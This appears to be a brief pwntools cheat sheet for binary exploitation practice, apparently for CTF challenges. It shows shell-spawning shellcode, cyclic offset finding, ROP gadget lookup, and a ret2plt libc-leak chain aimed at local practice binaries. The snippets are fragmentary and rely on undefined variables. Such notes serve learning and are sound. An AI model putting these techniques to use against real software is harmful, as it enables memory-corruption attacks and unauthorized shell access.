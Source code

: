 - Debugging with gdb `io = gdb.debug('./<binary>', 'b main')`
- Passing commandline arguments `io = process(['./crackme','blah'])`
- Shell code `shellcode = asm(shellcraft.sh())`

Cyclic padding in pwntools:

Using terminal:

```
$pwn cyclic 200
pwn cyclic -l 0xdeadbeef
```

Using python:

```python
x = 4 #x=8 for 64-bit
io.sendline(cyclic(200, n=x))
io.wait()
core = io.corefile
offset = cyclic_find(core.read(core.esp, x), n=x) #rsp for 64 bit
offset -= x # wherever the sequence is found, we replace it
```

ROP in pwntools:

```python
# finding gadgets
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```

```python
# leaking libc
elf = ELF('./vuln', checksec=False)
rop = ROP(elf)

#rop.raw(0)
#rop.raw(unpack(b'abcd'))
#rop.raw(2)

#rop.call('read',[4,5,6])
#rop.exit()

#rop.write(7,8,9)
#print(rop.dump())

#rop.call('execve', ['/bin/sh', [['/bin/sh'], ['-p'], ['-c'], ['ls']], 0])
#print(rop.chain())

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_plt = elf.symbols['main']

rop = offset + p64(pie+pop_rdi) + p64(pie+puts_got) + p64(pie+puts_plt) + p64(pie+main_plt)
```
